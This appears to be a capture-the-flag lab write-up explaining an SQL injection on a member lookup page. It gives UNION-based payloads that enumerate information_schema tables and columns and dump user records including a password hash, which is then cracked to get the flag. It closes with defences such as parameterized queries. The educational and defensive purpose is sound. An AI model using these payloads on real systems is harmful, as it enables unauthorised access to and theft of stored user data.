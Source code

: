 # SQL injection

## Found on

```
<ip>/?page=member
```

## How to exploit

The nmap tool informed of a possible Cross Site Request Forgeries (CSRF) vulnribility on this page.

What we found was an SQL Injection vulnribility.

Typing anything other than an id (integer) returns an SQL error. This gives an indication that the input is not sterilized before running a query.

This is very dangerous as attackers notice these things and mark inputs and fields like these as targets.  

1. To get table names:
```
3 union select null, concat (table_name) from information_schema.tables where table_schema = database ()
```

2. To get user table column names:
```
3 union select null, concat (column_name) from information_schema.columns where table_schema = database ()
```

3. To get all data of users:
```
3 union select NULL, concat (user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users
```

The last injection reveals this:
```
Surname : 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
```

With these instructions getting the flag was easy.
1. Decript the hash -> FortyTwo
2. Encrypt the lowercase phrase with Sh256 -> fortytwo

## A brief explination of the SQL Injection

Typing "sminnaar" into the input field and submitting returns this error:
```bash
Unknown column 'sminnaar' in 'where clause'
```
This gives me an idea of how the SQL is structured:
```bash
SELECT user WHERE id = sminnaar
```
In the case of the injection, the WHERE is completed by the 3 I entered and then the query is extended to include more queries.

This is then used to get information out of the database that I should not be able to access.

## How to protect against

* Use prepared statements or strerilize the input from the form.
* Using layered security minimizes the risk of vulnribilities being exposed.
* Using [Parameterized Queries in SQL](https://use-the-index-luke.com/sql/where-clause/bind-parameters)

## Resources:
* https://owasp.org/www-community/attacks/SQL_Injection
* https://portswigger.net/web-security/sql-injection/union-attacks
* https://dev.mysql.com/doc/refman/8.0/en/information-schema.html
* https://www.softwaretestinghelp.com/sql-injection-how-to-test-application-for-sql-injection-attacks/